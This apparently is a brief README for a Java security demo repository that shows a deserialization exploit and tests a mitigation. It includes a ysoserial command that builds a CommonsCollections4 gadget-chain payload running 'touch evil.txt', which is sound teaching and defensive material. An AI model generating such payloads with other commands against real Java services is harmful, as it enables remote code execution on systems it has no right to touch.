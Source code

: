 In [BookTest](src/test/java/com/github/masooh/security/deserialization/BookTest.java) deserialization exploit is shown and one mitigation strategy tested.

The exploit payload `CommonsCollections4.ser` was created with [ysoserial](https://github.com/frohoff/ysoserial): 
```bash
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections4 "touch evil.txt" > CommonsCollections4.ser
```

Resources

- https://github.com/frohoff/ysoserial
- https://www.christian-schneider.net/JavaDeserializationSecurityFAQ.html
